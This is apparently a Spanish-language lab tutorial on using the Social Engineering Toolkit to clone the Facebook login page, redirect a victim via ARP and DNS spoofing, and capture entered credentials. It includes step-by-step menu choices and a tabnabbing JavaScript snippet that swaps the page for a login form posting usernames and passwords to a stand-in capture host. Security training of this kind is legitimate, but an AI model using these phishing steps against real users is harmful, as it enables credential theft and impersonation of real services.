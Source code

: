 # Social Engineering ToolKit (SET)

Esta herramienta una de sus principales funciones es la de emular una pagina web que quieras totalmente exacta a la que elijas, reconstruyendo su codigo fuente para que sea una copia y con ello que se pueda hacer una especie de `phishing`.

Para mas informacion nos podremos ir al `github` de la herramienta en el siguiente link:

URL = [Social Engineering Toolkit GitHub](https://github.com/trustedsec/social-engineer-toolkit)

Esta herramienta ya viene instala por defecto en `kali`.

En tal caso de que no viene el repositorio, solo tendreis que instalar lo siguiente y ya la tendriais:

```shell
sudo apt install set
```

La iniciaremos con el siguiente comando:

```shell
setoolkit
```

Y nos aparecera como un `disclaimer` para aceptar que vamos a utilizar la herramienta con buenas acciones y no con malas, por lo que le daremos a la `y`, y esto nos metera en la herramienta:

<figure><img src="../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

Esto lo que hace automaticamente es replicar una pagina web que elijamos y capturar las credenciales que se introduzcan por parte del usuario para que nos llegue a nosotros.

Le daremos al numero `1` y despues al numero `2`, tendremos que ver esto en nuestro `prompt` de terminal:

```
set:webattack>
```

Seguidamente le daremos al numero `5` y despues al numero `3`.

Nos dira que si la IP que vemos reflejada en el `prompt` es la correcta, ya que la detecta automaticamente, de ser asi le dariamos a `ENTER` de lo contrario metemos nosotros la IP y `ENTER`.

Ahora nos pedira la pagina la cual queremos replicar, por lo que buscaremos `facebook.es`, dentro del login de `facebook` le daremos click derecho en la pagina -> `Save Page As ...` -> cambiar la parte de `Web Page, Complete` por `Web Page, HTML Only` -> lo renombramos como index.html -> `Save`

Metemos la ruta donde este ese `index.html`, despues nos aparecera que importemos la `URL` pondremos `facebook.es` para que nos aparezca este dominio y le daremos a `ENTER`, si tenemos `apache2` corriendo nos dira que si lo queremos desactivar para que lo active el, le daremos a `y`, en tal caso de que no estuviera activado, ya estaria lista la herramienta.

Por lo que si visitamos `http://localhost/` nos dira un link de que se movio la pagina a otro sitio y esto nos redirigira a la pagina `phishing` de `facebook.es` exactamente igual a la original:

> NOTA POSIBLE ERROR:

Si por ejemplo diera un error en la parte de cuando dejas en blanco lo de la `URL` tendriamos que hacer lo siguiente:

```shell
sudo nano /usr/local/share/setoolkit/src/webattack/tabnabbing/source.js

#Dentro del nano

// source.js: Simulación básica de Tabnabbing
window.onload = function () {
    // Tiempo de espera para simular cambio de pestaña (en milisegundos)
    setTimeout(function () {
        // Cambia el contenido de la página después de 3 segundos
        document.body.innerHTML = `
            <h1>Inicia sesión para continuar</h1>
            <form action="http://example.com/capture" method="POST">
                <label for="username">Usuario:</label>
                <input type="text" id="username" name="username"><br><br>
                <label for="password">Contraseña:</label>
                <input type="password" id="password" name="password"><br><br>
                <button type="submit">Iniciar sesión</button>
            </form>
        `;
        document.title = "Inicio de sesión - Seguridad";
    }, 3000);
};
```

Guardamos esto y volvemos a ejecutar la herramienta, con esto deberia de funcionar ya.

<figure><img src="../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

Una vez que tengamos corriendo esta pagina y estando en mitad de la comunicacion con el `ARP Spoofing` y el `DNS Spoofing` que le redirija a esta pagina cuando meta `facebook.es`, ya podremos probar a como si fueramos el usuario desde la maquina `windows` a meter `facebook.es` en el navegador y metes unas credenciales, por lo que si visitamos dicho dominio, veremos que funciona ya que nos aparece nuestra pagina falsa.

Cuando metemos nuestras credenciales como usuario normal, podremos ver que en la maquina atacante las recivimos:

<figure><img src="../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>
